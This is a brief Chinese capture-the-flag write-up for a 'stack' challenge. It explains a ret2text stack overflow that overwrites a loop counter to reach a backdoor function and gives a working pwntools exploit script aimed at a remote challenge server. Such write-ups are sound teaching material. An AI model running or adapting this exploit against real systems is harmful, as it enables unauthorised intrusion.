 # stack

## 文件分析

NX on, PIE off, Canary off, RELRO off  
ghidra分析为64位程序

## 解题思路

最简单的ret2text，程序中存在后门函数，栈溢出空间自定，
只要注意xmm寄存器要求的栈平衡

还有一点是这道题中迭代器`i`在buf之上，在覆写时会覆盖到，
可以借机将其覆写为0x27，跳至栈上返回地址处

## EXPLOIT

```python
from pwn import *
def payload(lo):
    global sh
    if lo:
        sh = process('./stack')
    else:
        sh = remote('43.249.195.138', 21935)
    if lo & 0b10:
        gdb.attach(sh)
    sh.sendline(b'1600') # read size
    retAddr = 0x4012e5
    backdoor = 0x4012e6

    # payload, when reading '\x27' modifies the counter, skip to retAddr
    sh.sendline(b'0'*28 + b'\x27' + p64(retAddr) + p64(backdoor)) # add a ret to keep rsp balance
    sh.interactive()

payload(0)
```

Done.
